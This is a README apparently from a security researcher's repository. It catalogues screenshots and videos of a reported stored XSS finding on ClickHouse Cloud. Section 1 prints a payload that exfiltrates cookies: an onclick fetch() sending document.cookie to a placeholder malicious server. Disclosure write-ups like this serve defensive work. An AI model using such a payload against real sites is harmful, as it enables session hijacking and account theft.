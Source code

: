 # Screenshots and Videos Documentation

This folder contains visual evidence (screenshots and videos) captured during the testing of a Stored Cross-Site Scripting (XSS) vulnerability on the **ClickHouse Cloud** platform. Each file provides a detailed view of the vulnerability, including step-by-step execution and proof of concept.

---

## 📸 Screenshots

### 1. **Start Free Trial Button XSS Injection**
- **Filename:** `XSS_Alert_Activate_Page_Select_Plan_Button.png`
- **Description:** Demonstrates XSS injection via the "Start Free Trial" button. The malicious payload was injected into the `onclick` attribute, successfully stealing session cookies.
- **Payload Used:**
  ```html
  onclick="fetch('http://your-malicious-server.com/?cookie=' + encodeURIComponent(document.cookie));"
  ```
- **Outcome:** The payload executed successfully.

---

### 2. **General XSS Alert Popup**
- **Filename:** `XSS_Alert_Popup.png`
- **Description:** Example of a general XSS alert triggered during testing to demonstrate successful JavaScript execution.
- **Outcome:** The alert confirms that malicious code executed in the browser.

---

## 🎥 Videos

### 1. **Recording 1: Start Free Trial Button Injection**
- **Filename:** `Recording 2024-11-20 193435.mp4`
- **Description:** Demonstrates the step-by-step process of modifying the "Start Free Trial" button and injecting the malicious payload. Shows the successful execution of the payload, stealing session cookies.
- **Highlights:**
  - Inspecting the button element.
  - Injecting the payload into the `onclick` attribute.
  - Triggering the payload and sending cookies to an external server.

---

### 2. **Recording 2: Proof of Cookie Theft**
- **Filename:** `Recording 2024-11-20 203352.mp4`
- **Description:** Confirms that the injected payload successfully steals session cookies and sends them to the attacker's server.
- **Highlights:**
  - Executing the payload within the browser context.
  - Verifying the successful transmission of stolen data.

---

## ⚠️ Ethical Disclaimer

All screenshots and videos were captured as part of an **ethical security assessment** conducted with prior approval. These materials are shared for educational purposes only and must not be used in any unauthorized or malicious activities.

Thank you for reviewing this folder! If you have any questions or need additional clarification, please feel free to reach out.
